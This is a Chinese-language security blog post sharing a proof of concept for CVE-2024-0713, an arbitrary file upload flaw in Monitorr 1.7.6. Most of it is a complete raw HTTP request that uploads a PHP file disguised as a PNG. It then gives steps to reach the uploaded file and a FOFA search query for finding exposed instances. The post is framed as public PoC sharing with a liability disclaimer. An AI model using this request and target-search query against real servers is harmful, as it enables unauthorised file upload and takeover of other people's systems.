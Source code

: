 #  Monitorr 任意文件上传-CVE-2024-0713   
小白菜安全  小白菜安全   2024-01-24 18:57  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1Au88bO1jFd8V3AmqMvsqEZUFalBicQwJaic1tesic3duRuGPPQ3E1vczEJ67UzoMicSWMZpKwRElxtA/640?wx_fmt=png "")  
  
**漏洞影响范围**  
  
**Monitorr 1.7.6**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1picEvdPS5MzGuCVicpia4icibiaBAH7teMVAdqHzIIkVgjSleDtIH3o1DHib2VYbAToAFVfmD6kYVXxibGQ/640?wx_fmt=png&from=appmsg "")  
#  漏洞复现  
  
**poc**  
```
POST /assets/php/upload.php HTTP/2
Host: 127.0.0.1
Content-Length: 683
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAEraQb4FUYaUR1Wk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9

------WebKitFormBoundaryAEraQb4FUYaUR1Wk
Content-Disposition: form-data; name="fileToUpload"; filename="18888.php"
Content-Type: image/png

123
------WebKitFormBoundaryAEraQb4FUYaUR1Wk--
```  
  
漏洞复现  
1. 出现以下信息代表漏洞存在,内容修改为图片码格式  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1picEvdPS5MzGuCVicpia4icibiaCZj2xxIYFXicEeRetKfAycCklajvMibZibfx5hNwn6dpxibN1ibko8tmQibg/640?wx_fmt=png&from=appmsg "")  
  
2.访问上传文件url+/assets/data/usrimg/18888.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1picEvdPS5MzGuCVicpia4icibiat7voNauWXToianHTyVAB1XY4AoHS2tmjtgG2g9t2EPF2Nu0jfQWpjmg/640?wx_fmt=png&from=appmsg "")  
  
# 搜索语法  
  
**fofa：icon_hash="-211006074"**  
  
  
  

